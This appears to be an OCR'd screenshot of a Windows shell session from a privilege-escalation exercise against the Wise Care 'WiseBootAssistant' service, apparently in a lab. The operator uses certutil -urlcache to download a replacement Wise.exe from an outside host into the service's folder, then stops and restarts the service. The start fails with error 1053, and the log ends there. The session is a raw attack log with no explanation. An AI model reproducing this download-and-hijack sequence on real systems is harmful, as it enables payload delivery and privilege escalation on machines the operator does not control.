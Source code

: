 ```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of C:\

12/07/2019  02:14 AM    <DIR>          PerfLogs
07/08/2024  01:41 PM    <DIR>          Program Files
02/04/2023  07:51 PM    <DIR>          Program Files (x86)
08/14/2021  05:29 AM    <DIR>          Users
02/04/2023  08:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  12,388,593,664 bytes free

C:\>cd Program Files (x86)
cd Program Files (x86)

C:\Program Files (x86)>cd Wise  
cd Wise

C:\Program Files (x86)\Wise>certutil -utlcache -f http://192.168.64.4/Wise.exe Wise.exe
certutil -utlcache -f http://192.168.64.4/Wise.exe Wise.exe
CertUtil: Unknown arg: -utlcache


CertUtil -?              -- Display a verb list (command list)
CertUtil -dump -?        -- Display help text for the "dump" verb
CertUtil -v -?           -- Display all help text for all verbs


C:\Program Files (x86)\Wise>certutil -urlcache -f http://192.168.64.4/Wise.exe Wise.exe
certutil -urlcache -f http://192.168.64.4/Wise.exe Wise.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x1388

C:\Program Files (x86)\Wise>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\Wise>sc start WiseBootAssistant
sc start WiseBootAssistant
[SC] StartService FAILED 1053:

```